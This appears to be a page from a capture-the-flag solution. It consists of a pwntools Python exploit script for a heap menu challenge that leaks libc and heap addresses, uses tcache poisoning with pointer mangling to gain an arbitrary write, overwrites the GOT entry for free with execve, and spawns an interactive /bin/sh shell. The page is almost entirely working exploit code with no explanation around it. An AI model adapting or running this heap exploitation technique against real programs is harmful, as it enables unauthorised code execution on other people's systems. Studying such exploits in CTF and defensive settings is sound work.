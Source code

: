 ```python
def show(idx):
    menu(2)
    sla(b"Index: ", se(idx))
    return rl().strip()

def edit(idx, data: bytes | str):
    menu(3)
    sla(b"Index: ", se(idx))
    if isinstance(data, bytes):
        io.sendafter(b"Edit: ", data + b"\n")
    else:
        sla(b"Edit: ", se(data))

def free(idx):
    menu(4)
    sla(b"Index: ", se(idx))


def tcache_poison(idx, size, target):
    global heap
    alloc(size)
    alloc(size)
    free(idx)
    free(idx + 1)
    edit(idx + 1, p64(mangle(heap, target)))  # overwrite fd pointer
    alloc(size)
    alloc(size)

def exploit(x):
    global io, heap
    io = initialize()
    with log.progress("Leaking libc and heap"):
        alloc(0x428)  # idx 0
        alloc(0x18)   # idx 1
        free(0) # unsorted bin chunk
        free(1) # tcache chunk
        libc_leak = u64(show(0).ljust(8, b"\x00"))
        libc.address = libc_leak - (libc.sym["main_arena"] + 96)
        heap = u64(show(1).ljust(8, b"\x00")) << 12
        alloc(0x428)  # idx 2
        alloc(0x18)   # idx 3
    debug()
    leak("Libc leak", hex(libc_leak))
    leak("Heap leak", hex(heap))
    with log.progress("Tcache poisoning to memory chunk to get arbitrary write"):
        tcache_poison(4, 0xf8, elf.sym["memory"] - 0x10)
        edit(7, p64(0)*2 + p64(elf.got["free"])) # overwrite got free->execve
        edit(0, p64(libc.sym["execve"])[:6])
        pause()
        edit(7, p64(0)*2 + p64(ns(libc, b"/bin/sh\x00"))) # memory[0] -> "/bin/sh"
        free(0) # trigger execve("/bin/sh", 0, 0)
    leak("ELF base address", hex(elf.address)) if elf.address else None
    leak("Libc base address", hex(libc.address)) if libc.address else None
    io.interactive() if not args.NOINTERACT else None

if __name__ == '__main__':
    global io
    for i in range(1):
        try:
            exploit(i)
        except Exception as e:
            print(f"Error occurred: {e}")
        io.close()
```